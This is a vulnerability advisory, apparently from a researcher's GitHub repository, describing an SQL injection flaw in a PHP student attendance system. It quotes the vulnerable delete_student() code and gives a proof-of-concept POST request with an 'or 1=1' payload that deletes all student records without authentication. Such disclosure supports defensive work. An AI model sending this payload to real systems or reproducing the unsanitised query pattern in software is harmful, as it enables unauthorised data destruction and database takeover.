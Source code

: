 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Simple Student Attendance System using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html) <br/>

**Affected Version**:
> Simple Student Attendance System using PHP and MySQL 1.0

**Affected Site Page**: 
> /ajax-api.php<br/>

**Affected Code**: 
> </ajax-api.php [function delete_student()]> <br/>

```php
public function delete_student(){
    extract($_POST);
    $delete = $this->conn->query("DELETE FROM `students_tbl` where `id` = '{$id}'");
    if($delete){
        $_SESSION['flashdata'] = [ 'type' => 'success', 'msg' => "Student has been deleted successfully!" ];
        return [ "status" => "success" ];
    }else{
        $_SESSION['flashdata'] = [ 'type' => 'danger', 'msg' => "Student has failed to deleted due to unknown reason!" ];
        return [ "status" => "error", "Student has failed to deleted!" ];
    }
}
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, for the POC all classes are deleted without any authentication

![image](https://github.com/smurf-reigz/security/assets/48426940/c58f0ecd-3d7c-48e6-a54f-90928c33a41e)

```http 
POST /ajax-api.php?action=delete_student HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Connection: close

id=1337'+or+1=1;--+
```

> DELETES all students without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/d789c987-c0a0-40df-a4aa-d109c45eb211)


## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
